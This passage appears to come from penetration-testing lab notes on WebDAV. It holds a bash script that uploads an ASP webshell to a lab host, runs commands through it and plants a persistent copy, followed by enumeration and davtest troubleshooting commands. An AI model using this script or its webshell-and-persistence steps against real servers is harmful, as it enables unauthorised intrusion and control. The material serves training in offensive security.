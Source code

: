 ### Custom Automation Scripts
```bash
#!/bin/bash
# WebDAV exploitation automation script
TARGET="http://demo.ine.local/webdav/"
USER="bob:password_123321"

echo "[+] Testing WebDAV connectivity..."
if curl -s --user $USER -X OPTIONS $TARGET | grep -q "DAV"; then
    echo "[+] WebDAV confirmed"
    
    echo "[+] Uploading webshell..."
    curl -X PUT --data-binary @webshell.asp --user $USER "${TARGET}shell.asp"
    
    echo "[+] Testing execution..."
    curl "${TARGET}shell.asp?cmd=whoami"
    
    echo "[+] Creating persistence..."
    curl -X MKCOL --user $USER "${TARGET}backup/"
    curl -X PUT --data-binary @webshell.asp --user $USER "${TARGET}backup/update.asp"
else
    echo "[-] WebDAV not accessible"
fi
```

---

## ⚠️ Common Misconfigurations and Issues

### Dangerous WebDAV Configurations
1. **Anonymous Access Enabled**
2. **Insufficient Access Controls**
3. **Dangerous Method Exposure** (PUT, DELETE, MOVE, COPY)
4. **Executable File Types Allowed**
5. **Weak Authentication Mechanisms**

### Troubleshooting Common Issues

#### Issue 1: WebDAV Not Detected
```bash
# Problem: Nmap doesn't find WebDAV directories
# Solution: Use comprehensive enumeration
nmap --script "http-*" -p 80 target
dirb http://target/ /usr/share/dirb/wordlists/common.txt
gobuster dir -u http://target/ -w /usr/share/wordlists/common.txt
```

#### Issue 2: Authentication Failures
```bash
# Problem: davtest returns 401/403 errors
# Solution: Verify credentials and try different formats
davtest -auth domain\\user:pass -url http://target/webdav
davtest -auth user%40domain.com:pass -url http://target/webdav
```
